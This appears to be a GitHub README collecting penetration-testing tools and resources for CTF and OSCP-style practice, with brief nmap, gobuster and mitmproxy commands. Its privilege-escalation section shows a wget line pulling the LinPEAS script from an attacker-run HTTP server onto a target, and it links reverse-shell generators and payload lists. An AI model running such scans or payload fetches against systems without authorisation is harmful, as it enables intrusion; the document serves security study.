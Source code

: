 # cow-tools

![](https://upload.wikimedia.org/wikipedia/en/thumb/9/9a/Cow_Tools_cartoon.png/220px-Cow_Tools_cartoon.png)

A collection of the pentesting tools and resources I've found and made use of over the years, and maybe some of my own!?

Many of these tools are prebuilt into Kali, and will not need to be installed.

## VMs
- [Kali VMWare](https://www.kali.org/get-kali/#kali-virtual-machines) - Easy images for VM usage. I prefer this over everything and I've frequently wiped VMs with utter disregard.

## General Resources
- [HackTricks](https://book.hacktricks.wiki/en/index.html) - My favorite general hacking wiki. Has awesome documentation for many attack vectors.
- [HackTricks Cloud](https://cloud.hacktricks.wiki/en/index.html) - Hacktricks, but for cloud! Good docs on things like CI/CD, Terraform, and Kubernetes.
- [IppSec](https://www.youtube.com/@ippsec) - Great Youtube channel with HTB writeups. Nice to look at as retros after box completion.
- [Exploit DB](https://exploit-db.com) - List of exploits and PoCs, perfect for when you find a vulnerable service.
- [OWASP Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/) - Great resource for random cheatsheets on various services/technologies.
- [Interesting OSCP guide](https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html) - Someone's Gitbook that seems pretty useful!

## Recon & Discovery
- [Nmap](https://nmap.org/) - A classic and mainstay. Most useful and easiest to work with port and network scanner.
  > Very aggro scan: `$ nmap -sS -A -T 5 10.0.0.0`
  >
  > More calm scan: `$ nmap -sS 10.0.0.0`
  >
  > All ports: `$ nmap -sS 10.0.0.0 -p-`
  >
  > Quick UDP scan `$ nmap -sU 10.0.0.0 --max-rtt-timeout 500ms --initial-rtt-timeout 250ms --max-retries 2`
- [Gobuster](https://github.com/OJ/gobuster) - Web app fuzzer, I get a crazy amount of use out of this one. Great for subdomain and dir enumeration.
  > Directory discovery: `$ gobuster dir --url http://site.htb --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`
  >
  > Subdomain/VHost discovery: `$ gobuster vhost --append-domain http://site.htb --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt`
- [WhatWeb](https://github.com/urbanadventurer/WhatWeb) - Web app scanner, useful for finding vulnerable versions of software hosting the webapp.
- [FeroxBuster](https://github.com/epi052/feroxbuster) - Quick recursive directory fuzzer.

## Web App
- [Burp Suite](https://portswigger.net/burp) - Web app proxy and repeater for easy introspection and modification of HTTP requests.
- [JWT.io](https://jwt.io) - JWT token parsing and decoding, great for finding token injection parameters or low RSA N values to crack.
- [XSS Payload List](https://github.com/payloadbox/xss-payload-list) - Useful list of common XSS payloads.
- [MITMProxy](https://mitmproxy.org/) - Easy HTTP proxy for port forwarding a localhost webserver.
  > Simple reverse http proxy: `$ ./mitmproxy --mode reverse:http://localhost:<source-port>@<target-port>`
- [Reverse Shell Generator](https://www.revshells.com/) - Easy way to get a shell made, has many options for style and encoding.
- [Git Dumper](https://github.com/arthaud/git-dumper) - Easily dump git repos from the web

## SQLi
- [SQLMap](https://sqlmap.org/) - Aggressive SQLi finder. Do not use this outside of CTF/OSCP/HTB.

## Scripting
- [PWNTools](https://docs.pwntools.com/en/stable/) - Python library for automating binary exploitation scripts and other CTF related tasks.

## Cryptography
- [HashCat](https://hashcat.net/wiki/doku.php?id=example_hashes) - Hash cracking tool for a variety of hashes.
- [CyberChef](https://gchq.github.io/CyberChef/) - Best online encoding and text parsing. Useful for base64, parsing certs, etc.
- [CrackStation](https://crackstation.net/) - Cached cracked passwords, easy for simple ones like SHA256 and MD5 that may have been popped in breaches. Great for HTB.
- [RSACTFTool](https://github.com/RsaCtfTool/RsaCtfTool) - RSA breaking tool, great for ciphers with weak N values.
- [Alpertron's Integer Factorization Calculator](https://www.alpertron.com.ar/ECM.HTM) - Easily factorize massive integers with elliptic curve or quadtratic sieve.

## Wordlists
- [SecLists](https://github.com/danielmiessler/SecLists) - Favorite wordlists! This has all kinds of stuff for web fuzzing, local directories, etc.
- [RockYou2021](https://github.com/ohmybahgosh/RockYou2021.txt) - Big collected wordlist featuring seclists, crackstation, and more.
- [OneRuleToRuleThemAll](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule) - Massive Hashcat cracking rule for special password combo attacks.

## Privelege Escalation

### OS Agnostic
- Python HTTP Server - I get a crazy ammount of use out of this to pull down files from my box.
  > Start server: `$ python3 -m http.server 80`
  >
  > Pull file: `wget http://10.10.14.7/linpeas.sh`

### Linux
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) - Privesc automation script. Easily find curious things to exploit.
- [GTFOBins](https://gtfobins.github.io/) - Easily exploitable bins to live off the land with. Good for finding SUID exploits.

### Windows
- [WinPEAS](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) - Windows privesc automation script. Easily find curious things to exploit.
- [LOLBas](https://lolbas-project.github.io/) - Live off the land with local Windows scripts to get priveleged.

## Reverse Engineering
- [jd-gui](https://java-decompiler.github.io/) - Java decompilation. Perfect for .class files.
- [dnSpy](https://github.com/dnSpy/dnSpy) - Windows dotnet, c# decompilation tool. Nice for DLL files too.
- [Ghidra](https://ghidra-sre.org/) - NSA made disassembly tool. Works well for C, but has a hard time with Rust.
- [Binary Ninja](https://binary.ninja/) - Web based disassembler, sometimes can get results that are hard to find in Ghidra. Much better for rust.
